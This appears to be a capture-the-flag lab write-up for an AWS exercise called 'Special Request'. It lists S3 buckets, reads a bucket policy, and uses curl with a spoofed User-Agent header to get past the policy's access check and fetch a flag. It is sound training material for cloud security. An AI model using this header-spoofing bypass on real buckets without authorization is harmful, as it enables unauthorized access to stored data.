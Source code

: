 # Special Request

Check S3 buckets and its object. 
```
aws s3api list-buckets --profile PTAcademyJllerena
aws s3api list-objects --bucket s3-special-request-522968453802 --profile PTAcademyJllerena
```
![image](https://user-images.githubusercontent.com/46797181/227651823-7ac5e81c-4b73-4268-8c14-90007399de20.png)

Check the bucket policy. `aws s3api get-bucket-policy --bucket s3-special-request-522968453802 --output text --profile PTAcademyJllerena | jq` (or python -m json.tool)
![image](https://user-images.githubusercontent.com/46797181/227652263-ce68b3dd-62ab-4905-92d0-a45e09e15559.png)

Policy shows that we need a special agent to retrieve the flag, as seen below, using `curl -s http://s3-special-request-522968453802.s3.amazonaws.com/flag | xmllint --format -` will give an access denied message but if specifying the agent `curl -s http://s3-special-request-522968453802.s3.amazonaws.com/flag -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/*'` will retrieve the flag
![image](https://user-images.githubusercontent.com/46797181/227653240-205b2561-b2f1-4f79-8f6c-1d52497eb749.png)

EXERCISE COMPLETED !!!!
